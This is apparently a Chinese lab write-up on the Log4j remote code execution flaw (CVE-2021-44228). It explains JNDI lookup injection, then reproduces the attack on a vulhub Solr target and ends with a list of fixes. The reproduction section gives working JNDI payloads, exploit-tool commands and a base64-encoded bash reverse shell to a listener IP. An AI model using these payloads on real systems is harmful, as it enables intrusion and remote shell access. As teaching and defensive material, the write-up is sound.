




# Log4j远程代码执行漏洞

Log4j2 是一个用于 Java 应用程序的成熟且功能强大的**日志记录框架****。**

它是 Log4j 的升级版本，相比于 Log4j，Log4j2 在性能、可靠性和灵活性方面都有显著的改进。

Log4j2 是一个功能强大且灵活的日志记录框架，旨在提供高性能的日志记录解决方案。它被广泛用于各种 Java 应用程序和框架中，帮助开发人员更好地管理和分析应用程序的日志信息。

---

## CVE-2021-44228

### 漏洞简介

log4j支持JNDI协议。

Apache Log4j2是一个基于Java的日志记录工具，当前被广泛应用于业务系统开发，开发者可以利用该工具将程序的输入输出信息进行日志记录。

### 漏洞原理

攻击者构造payload，在JNDI接口lookup查询进行注入，payload为${jndi:ldap:恶意url/poc}，JNDI会去对应的服务（如LDAP、RMI、DNS、文件系统、目录服务…本例为ldap）查找资源，由于lookup的出栈没做限制，最终指向了攻击者部署好的恶意站点，下载了远程的恶意class，最终造成了远程代码执行rce。

**log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）。**

**攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）。**

log4j是一款通用日志记录工具，开发人员可以使用log4j对当前程序状态进行记录。log4j的功能非常强大，开发人员除了直接记录文本外，还可以使用简单表达式记录动态内容，例如：

```
logger.info("system propety: ${sys:user.dir}");
```

### lookup功能

Lookup 是一种查找机制，用于动态获取和替换日志记录中的变量或属性的值。它提供了一种灵活的方式，可以在日志消息中引用、解析和插入各种上下文相关的信息。

**log4j中除了sys解析器外，还有很多其他类型的解析器。其中，jndi 解析器就是本次漏洞的源头。**

### JNDI解析器

JND**全称为Java命名和目录接口，**提供了命名服务和目录服务，**允许从指定的远程服务器获取并加载对象，JNDI注入攻击时常用的就是通过RMI和LDAP两种服务。**

正常的包含jndi的日志记录方式如下：

```
logger.info("system propety: ${jndi:schema://url}");
```

log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）。

**jdk将从url指定的路径下载一段字节流，并将其反序列化为Java对象，作为jndi返回。反序列化过程中，即会执行字节流中包含的程序。**

**攻击者如何控制服务器上记录的日志内容呢？**

大部分web服务程序都会对用户输入进行日志记录。例如：用户访问了哪些url，有哪些关键的输入等，都会被作为参数送到log4j中，我们在这些地方写上 ${jndi:ldap://xxx.dnslog.cn}就可以使web服务从xxx.dnslog.cn下载字节流了。

---

## 攻击过程

### RMI

**RMI（远程方法调用）：它是一种机制，能够让在某个java虚拟机上的对象调用另一个Java虚拟机 的对象的方法。**

---

log4j2 远程代码执行漏洞大致过程（此处使用RMI，LDAP同理）： 假设有一个Java程序，将用户名信息到了日志中，如下：

**a.**攻击者发送一个HTTP请求，其用户名为${jndi://rmi:服务器地址/Exploit}

**b.**被攻击服务器发现要输出的信息中有 ${}，则其中的内容要单独处理，进一步解析是JNDI扩展内容且使用的是RMI，而后根据RMI服务器地址去请求Exploit。

**c.**RMI服务器返回Reference对象（用于告诉请求端所请求对象所在的类），而该Reference指定了远端 文件下载服务器上含有恶意代码的class文件。

**d.**被攻击服务器通过Reference对象去请求文件下载服务器上的class文件。

**e.**被攻击服务器下载恶意class文件并执行其中的恶意代码。

---

### LDAP

```
LDAP(轻型目录访问协议)是一个开放的，中立的，工业标准的应用协议，
通过IP协议提供访问 控制和维护分布式信息的目录信息。
```

目录是一个为查询、浏览和搜索而优化的专业分布式数据库，它呈 树状结构组织数据，就好象Linux/Unix系统中的文件目录一样。

---

当用户输入信息时，应用程序中的log4j2组件会将信息记录到日志中

**a.**假如日志中含有该语句${jndi:ldap:192.168.96.1:1099/exp}

**b.**被攻击服务器发现要输出的信息中有 ${}，log4j就会去解析该信息，通过jndi的lookup()方法去解析该URL：ldap:192.168.96.1:1099/exp

**c.**解析到ldap，就会去192.168.61.129:1099的ldap服务找名为exp的资源，如果找不到就会去http服务中找，在http中找到exp之后，就会将资源信息返回给应用程序的log4j组件，而log4j组件就会下载下来，然后发现exp是一个.class文件，就会去执行里面的代码，从而实现注入攻击者就可以通过shell实现任意的命令执行，**造成严重危害**

---

## 漏洞复现

在kali中进入靶场环境

```
cd /vulhub-master/log4j/CVE-2021-44228
```

搭建docker之后

访问靶机

```
http://your-ip:8983
```



### dns回显验证

```
/solr/admin/cores?action=${jndi:ldap://xxxxxxxx.io} #ladp是协议，后面的地址dns地址
```

payload：

```
/solr/admin/cores?action=${jndi:ldap://rnfmyjoogl.lfcx.eu.org.io}
```

---

### 使用JNDIExploit进行漏洞利用

**将上面base64编码后的bash命令填入指定位置**

```
java -jar JNDIExploit-1.3-SNAPSHOT.jar -i 192.168.234.128
```

-i 指定开启服务的IP，服务我是在本地开启的。

注意这里java一定要使用jdk1.8



然后在攻击机开启监听



构造如下命令：

```
/solr/admin/cores?action==${jndi:ldap://192.168.234.128:1389/Basic/ReverseShell/192.168.234.128/2333}
```

ReverseShell 即反弹shell，后面跟接收 shell 的IP，这里我接收 shell 的IP也是在本地。这个工具还有很多其它的功能

成功反弹shell



### JNDI-Injection-Exploit进行漏洞利用

还有另一个工具JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar

这里使用另一位大佬开发的EXP，[下载链接](https://github.com/bkfish/Apache-Log4j-Learning) 下载后不需要编译

在tools目录下通过下面命令使用：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "编码后的bash反弹shell命令" -A “监听的IP地址”
```

反弹 shell 需要先构造payload：

```
bash -i >& /dev/tcp/192.168.234.128/2333 0>&1
```

- bash: 启动一个 Bash shell。
- -i: 打开一个交互式 shell 会话，允许用户输入命令和获取输出。
- \>& /dev/tcp/192.168.192.180/5555: 将标准输出和标准错误输出重定向到指定的 IP 地址为  192.168.191.180、端口号为 `5555 ’ TCP 连接。换句话说，它将尝试建立一个与该 IP  地址和端口号连接的网络套接字，并将输出发送到该连接。
- 0>&1: 将标准输入（文件描述符 0）重定向到标准输出（文件描述符 1），意味着输入和输出都将通过网络套接字进行传输。

然后将这个 payload 进行base64加密

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUwLjEzMS8yMzMzIDA+JjE=
```

调整成如下格式

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUwLjEzMS8yMzMzIDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.234.128
```

-A 192.168.234.128 即指定开启服务的IP，这里就是我本地的IP。

执行上述命令

可以看到，根据 jdk 版本生成了 rmi 和 ldap 服务的不同利用代码。

先在 192.168.234.128 开启监听，然后根据靶场的版本是jdk1.8的，执行下面url：

```
http://192.168.50.131:8983/solr/admin/cores?action=${jndi:ldap://192.168.50.1:1389/bvqld7}
```

成功反弹shell

## 漏洞修复

- 更新log4j至 rc2
- 配置防火墙策略，禁止主动连接外网设备
- 升级受影响的应用及组件
- 过滤相关的关键词，比如${jndi://*}
- 限制JNDI默认可以使用的协议
- 限制可以通过LDAP访问的服务器和类


参考链接：[Log4j 远程代码执行漏洞解析](https://www.freebuf.com/vuls/382838.html)


